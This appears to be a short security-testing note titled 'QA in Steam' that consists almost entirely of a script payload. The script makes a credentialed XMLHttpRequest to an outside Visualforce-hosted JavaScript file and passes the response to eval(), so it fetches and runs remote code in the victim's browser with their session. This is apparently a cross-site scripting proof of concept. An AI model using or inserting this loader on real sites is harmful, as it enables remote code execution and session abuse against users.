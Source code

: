 # QA in Steam

Trying out the bug against a steam environment

<script>
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.open("GET", 'https://vfmetadata--c.stmfa.stm.visualforce.com/resource/1554832772000/banana/myjs.js');
    xmlhttp.withCredentials = true;
    xmlhttp.onreadystatechange = function()
    {
        if ((xmlhttp.status == 200) && (xmlhttp.readyState == 4))
        {
            eval(xmlhttp.responseText);
        }
    };
    xmlhttp.send();
</script>

